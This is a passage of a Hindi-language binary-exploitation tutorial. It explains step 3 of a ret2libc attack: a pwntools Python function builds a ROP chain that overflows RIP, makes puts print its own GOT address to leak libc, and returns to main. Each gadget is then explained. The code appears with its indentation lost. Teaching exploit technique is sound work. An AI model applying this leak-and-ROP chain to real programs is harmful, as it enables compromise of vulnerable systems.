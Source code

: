 इस चरण में आपको कुछ भी नहीं चलाने की आवश्यकता है क्योंकि प्रत्येक निष्पादन के दौरान pwntools द्वारा सभी चीजें मिल जाएगी।

# 3- LIBC पुस्तकालय खोजना

अब समय है कि हम जांचें कि कौन सी **libc** पुस्तकालय का उपयोग हो रहा है। इसके लिए हमें मेमोरी में **फ़ंक्शन** `puts` के **पते** को **लीक** करने की आवश्यकता होगी और फिर हमें यह जानने की आवश्यकता होगी कि उस पते में puts संस्करण किस पुस्तकालय संस्करण में है।
```python
def get_addr(func_name):
FUNC_GOT = elf.got[func_name]
log.info(func_name + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

#Send our rop-chain payload
#p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
print(p.clean()) # clean socket buffer (read all and print)
p.sendline(rop1)

#Parse leaked address
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
#If not libc yet, stop here
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))

return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
p.interactive()
```
इसके लिए, निष्पादित कोड की सबसे महत्वपूर्ण पंक्ति है:
```python
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```
यह कुछ बाइट भेजेगा जब तक **RIP** को **अधिलेखित** करना संभव हो जाएगा: `OFFSET`।
फिर, यह गैजेट `POP_RDI` का **पता** सेट करेगा ताकि अगला पता (`FUNC_GOT`) **RDI** रजिस्ट्री में सहेजा जा सके। इसका कारण है कि हमें **puts** को **बुलाना है** और इसे **पास** करना है `PUTS_GOT` का **पता** मानकी मेमोरी में पुट्स फंक्शन का पता `PUTS_GOT` द्वारा पता करने वाले पते में सहेजा जाता है।
इसके बाद, `PUTS_PLT` को बुलाया जाएगा (जिसमें **RDI** में `PUTS_GOT` होगा) ताकि पुट्स **`PUTS_GOT`** में अंदर की सामग्री पढ़ सके (**मेमोरी में पुट्स फंक्शन का पता**) और इसे **प्रिंट करेगा**।
अंत में, **मुख्य फ़ंक्शन को फिर से बुलाया जाता है** ताकि हम फिर से ओवरफ़्लो का उपयोग कर सकें।

इस तरीके से हमने **पुट्स फंक्शन को धोखा दिया** है कि वह **मेमोरी में पुट्स** फ़ंक्शन का **पता प्रिंट करेगा** (जो **लिब्सी** पुस्तकालय में है)। अब जब हमारे पास उस पते का हो गया है, हम **खोज सकते हैं कि कौन सी लिब्सी संस्करण का उपयोग हो रहा है**।
